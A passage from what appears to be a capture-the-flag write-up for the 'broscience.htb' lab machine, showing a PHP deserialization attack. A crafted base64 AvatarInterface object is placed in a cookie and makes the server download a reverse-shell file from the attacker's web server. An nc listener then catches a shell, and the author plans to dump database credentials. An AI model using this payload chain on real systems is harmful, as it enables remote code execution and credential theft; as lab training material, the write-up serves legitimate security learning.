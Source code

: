 ```php
print "Serialized string for AvatarInterface obj: " . $avatar_interface_str . "\n";

$avatar_interface_base64_str = base64_encode($avatar_interface_str);
print "Base64 encoded string for serialized AvatarInterface string: " . $avatar_interface_base64_str . "\n";

?>
```

Here's the output of our script showing the serialized `AvatarInterface` object and the base64 encoded string:

```bash
$php test.php 
Serialized string for AvatarInterface obj: O:15:"AvatarInterface":2:{s:3:"tmp";s:34:"http://10.10.14.17:8000/my-cmd.php";s:7:"imgPath";s:24:"/var/www/html/my-cmd.php";}

Base64 encoded string for serialized AvatarInterface string: TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czozNDoiaHR0cDovLzEwLjEwLjE0LjE3OjgwMDAvbXktY21kLnBocCI7czo3OiJpbWdQYXRoIjtzOjI0OiIvdmFyL3d3dy9odG1sL215LWNtZC5waHAiO30=
```

After putting the base64 string in `user-prefs` cookie and reloading https://broscience.htb/index.php -- we see the server has downloaded our `my-cmd.php` reverse shell file from the ad-hoc python web server running on my machine!:

```bash
$python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.195 - - [29/Jan/2023 14:00:47] "GET /my-cmd.php HTTP/1.0" 200 -
```

Let's browse to http://broscience.htb/my-cmd.php, and hopefully we should trigger our PHP file in the PHP server's interpreter, obtaining a reverse shell:

```bash
$nc -lvnp 3322
listening on [any] 3322 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.195] 54758
Linux broscience 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64 GNU/Linux
 22:00:58 up 1 day, 21:27,  0 users,  load average: 0.00, 0.02, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (833): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$
bash-5.1$ cat /home/bill/user.txt
cat /home/bill/user.txt
cat: /home/bill/user.txt: Permission denied
```

We have a foothold!!.. but can't read the user flag yet.  Damn.  We know from `includes/db_connect.php` the web app has a hard-coded connection string with credentials.  So let's see if we can create a new php file to connect to postgres and dump the users table..  I saved this into `/var/html/www/db.php`:

